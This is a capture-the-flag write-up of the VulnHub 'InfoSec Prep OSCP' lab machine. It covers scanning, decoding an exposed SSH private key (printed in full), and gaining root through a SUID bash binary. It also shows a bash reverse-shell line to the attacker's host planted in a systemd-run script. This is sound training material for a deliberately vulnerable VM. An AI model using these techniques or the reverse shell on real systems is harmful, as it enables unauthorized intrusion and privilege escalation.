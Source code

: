 ```yaml
---
layout: post
title: VulnHub - InfoSec Prep OSCP
---
```


**Description:** This machine was created for the InfoSec Prep Discord Server (https://discord.gg/RRgKaep) as a give way for a 30d voucher to the OSCP Lab, Lab materials, and an exam attempt.

**Author:** FalconSpy

**Operating System:** Linux

**Aim:** Find the flag.txt in /root/.

**Download:** [https://www.vulnhub.com/entry/infosec-prep-oscp,508/](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)

# Information Gathering
## Host Discovery

I discovered the target machine on the local network with netdiscover.

```bash
root@kali:~$ netdiscover -i vmnet1 -r 192.168.179.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 7 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 402
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.179.157 00:0c:29:b9:57:e3      6     360  VMware, Inc.
 192.168.179.254 00:50:56:ee:43:01      1      42  VMware, Inc.
```

### Port Scanning

Then, I proceeded to perform a full TCP/UDP scan to find available ports.

```bash
root@kali:~$ us -mT -Iv -p1-65535 192.168.179.157 -r 3000 -R 3 && us -mU -Iv -p1-65535 192.168.179.157 -r 3000 -R 3
adding 192.168.179.157/32 mode `TCPscan' ports `1-65535' pps 3000
using interface(s) vmnet1
scaning 1.00e+00 total hosts with 1.97e+05 total packets, should take a little longer than 1 Minutes, 12 Seconds
TCP open 192.168.179.157:80  ttl 64
TCP open 192.168.179.157:22  ttl 64
TCP open 192.168.179.157:33060  ttl 64
sender statistics 2395.4 pps with 196605 packets sent total
listener statistics 390334 packets recieved 0 packets droped and 0 interface drops
TCP open                     ssh[   22]         from 192.168.179.157  ttl 64
TCP open                    http[   80]         from 192.168.179.157  ttl 64
TCP open                 unknown[33060]         from 192.168.179.157  ttl 64
adding 192.168.179.157/32 mode `UDPscan' ports `1-65535' pps 3000
using interface(s) vmnet1
scaning 1.00e+00 total hosts with 1.97e+05 total packets, should take a little longer than 1 Minutes, 12 Seconds
```

### Service Enumeration

I did service and OS detection, script scanning and traceroute on the target machine.

```bash
root@kali:~$ nmap -n -v -A -p22,80,33060 192.168.179.157 -oN nmap/service-enum.txt
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
```

### Web Enumeration

On the web service a wordpress CMS is running, as we saw in the enumeration of services with nmap, the robots files is available, in this I found the secret.txt file.

![](/assets/images/infosecpreposcp/screenshot-1.png)

![](/assets/images/infosecpreposcp/screenshot-2.png)

This file contains a base64 string.

![](/assets/images/infosecpreposcp/screenshot-3.png)

I downloaded it and decoded it, this is an OPENSSH private key.

```bash
root@kali:~$ curl -s http://192.168.179.157/secret.txt | base64 -d
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

So I saved this private key to a file.

```bash
root@kali:~$ curl -s http://192.168.179.157/secret.txt | base64 -d  > id_rsa
```

On the main page, in the following text I found the user **oscp**.

![](/assets/images/infosecpreposcp/screenshot-4.png)

## Exploitation
### Access via SSH

Before to log in is necessary grant write and read privileges to private key file, then I logged in via ssh as the user oscp. 

```bash
root@kali:~$ chmod 400 id_rsa

root@kali:~$ ssh oscp@192.168.179.157 -i id_rsa
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

In the above output we see that the **oscp** user belogs to lxd group, we can exploit that to get root, but by listing the SUID binaries, I was able to detect the bash binary, this allows us to elevate our privileges in an easy way.

```bash
-bash-5.0$ find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/bash
...
```

## Privilege Escalation
### SUID Binary

To get root, we just need to run the bash command with the -p option.

```bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# cat flag.txt 
d73b04b0e696b0945283defa3eee4538
```

### System Service

Another way to get root, as we see In the oscp's home directory there's an ip script that performs a couple of tasks.

```bash
-bash-5.0$ ls
ip  snap
-bash-5.0$ cat ip
#!/bin/sh
cp /etc/issue-standard /etc/issue
/usr/local/bin/get-ip-address >> /etc/issue
```

We search the path of this script in a file, it's in the ip-update.service file, if we run this service the script will be executed.

```bash
-bash-5.0$ grep -r '/home/oscp/ip' /etc 2>/dev/null 
/etc/systemd/system/ip-update.service:ExecStart=/home/oscp/ip
-bash-5.0$ cat /etc/systemd/system/ip-update.service
[Unit]
Description=Write current ip addr to /etc/issue

[Service]
Type=oneshot
RemainAfterExit=true
ExecStart=/home/oscp/ip

[Install]
WantedBy=multi-user.target
```

With this in mind, I did a copy of the ip file, then I saved a bash reverse shell in that file, and gave it execute permissions.

```bash
-bash-5.0$ mv ip ip.old
-bash-5.0$ echo '#!/bin/bash' > ip
-bash-5.0$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' >> ip
-bash-5.0$ chmod +x ip
```

Then, I started a netcat listener, rebooted the machine and got root.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.157] 49772
bash: cannot set terminal process group (758): Inappropriate ioctl for device
bash: no job control in this shell
root@oscp:/#
```
